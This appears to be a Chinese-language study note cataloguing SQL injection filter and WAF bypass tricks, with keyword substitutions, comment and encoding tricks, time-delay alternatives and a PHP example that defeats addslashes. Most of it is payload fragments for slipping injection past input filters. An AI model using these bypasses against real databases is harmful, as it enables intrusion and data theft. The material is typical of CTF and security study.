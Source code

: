 - > ~~反 waifu~~
- # 常见绕过手法
  id:: 65295f4e-bfcb-4286-a698-89181acb25d2
	- `or`和`and`
		- 使用`||`和`&&`代替
	- `information_schema`
		- `sys.schema_auto_increment_columns`
		- `select table_name from mysql.innodb_table_stats where database_name = database();`
		- `mysql.innodb_table_stats`
		- `(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))`
		- [参考](https://www.jianshu.com/p/5aad090eb613)
	- `=`
		- 使用`like`或者`regexp`代替
	- 空格等
		- 使用`()`即`select(flag)from(xxx)`进行代替
			- 版本太低时无法使用
		- 使用`/**/`或者`<>`代替
		- `and 1=1` --> `and!!1=1`
		- `payload.replace(' ', chr(0x0b))`
			- mysql可用
	- `#`和`-`
		- 构造`||'`去闭合最后的`'`
	- `/*`
		- 使用`#\n`
	- `substr`
		- 试试`substring`
		- 可以使用`mid`代替
			- `mid(('ahahaha')from(1)for(3))`
		- 试试`left`和`right`
			- `right(left(TARGET,POSITION),1)`
	- 各类关键词（如`medium`）
		- 可以使用十六进制`0x6d656469756d`代替
		- `SELECT 'a' 'd' 'mi' 'n';`
		- `SELECT CONCAT('a', 'd', 'm', 'i', 'n');`
	- `^`
		- 可使用`$`来从后往前进行匹配
	- `where`
		- 可以使用 having
	- `select`
		- `table`
		- `handler`
	- `if`
		- `select case when (条件) then 代码1 else 代码 2 end`
		- `IFNULL()` ,  `NULLIF()`
	- `union select`
		- `union all select`
		- 注释
			- `union/**/select`
			- 单行注释配合换行
				- `union #\nselect`
			- `union/*!/*!10000select*/`
			-
	- `sleep`
		- `benchmark(10000000,sha(1))`
		- 利用[[regex/ddos]]卡时间，达到和sleep相同的效果
	- 引号
		- `/*!0x2e2a3fe6ada2e8a1802e2a3f*/`
		- ^^`/*!*/`  意为在xxx版本之上执行^^
- # 绕过 addslashes
	- ```php
	  $id=addslashes($id);
	  $path=addslashes($path);
	  
	  $id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	  $path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	  
	  $result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	  ```
	  
	  使用`\0`可以消除单引号
	  
	  `\0'` -> `\\0'` -> `\'`
	  
	  因此，只要让`$id`为`\0`就可以让`$path`逃逸
	  
	  > 在处理字符串时，mysql 并不是逐字符解析的（因为还要考虑反引号），但是 addslash 加 str_replace 是逐字符解析的，这就造成了漏洞
	  >
	  > 举例：解析`1a\0'`
	  >
	  > `1 a \ 0 '` -> `1 a \\ 0 \' `(本应这么解析) -> `1 a \ \0 \'` -> `1 a \\'` -> `1 a`
- # 安全狗
	- [[SQL注入/绕过商业WAF]]